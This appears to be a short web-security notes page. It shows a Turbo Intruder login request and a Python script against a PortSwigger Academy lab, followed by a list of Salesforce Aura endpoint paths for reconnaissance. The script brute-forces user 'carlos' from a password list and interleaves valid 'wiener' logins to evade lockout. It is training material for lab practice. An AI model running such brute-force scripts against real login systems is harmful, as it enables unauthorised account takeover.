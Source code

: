 ### Turbo Intruder Example with Multiple Inputs

#### HTTP Request
```
POST /login HTTP/2
Host: 0ad000b0035c89fa83fc8c5100dd0067.web-security-academy.net
Cookie: session=Wwc7Ls7omZps6lz1KyP6KpTGaxgRjkkH
Content-Length: 33
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0ad000b0035c89fa83fc8c5100dd0067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad000b0035c89fa83fc8c5100dd0067.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

username=%s&password=%s
```

#### Script
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=5,
                           pipeline=False
                           )

    for passwd in open('./portswigger-labs/passwords.txt'):
        engine.queue(target.req, ['carlos', passwd.rstrip()])
        engine.queue(target.req, ['wiener', 'peter'])


@MatchRegex(r'.*my-account\?id=carlos\r\n')
def handleResponse(req, interesting):
        table.add(req)

```

### Potential Salesforce Auro Endpoints
```
/aura
/s/aura
/s/sfsites/aura
/sfsites/aura
/s/fact
```

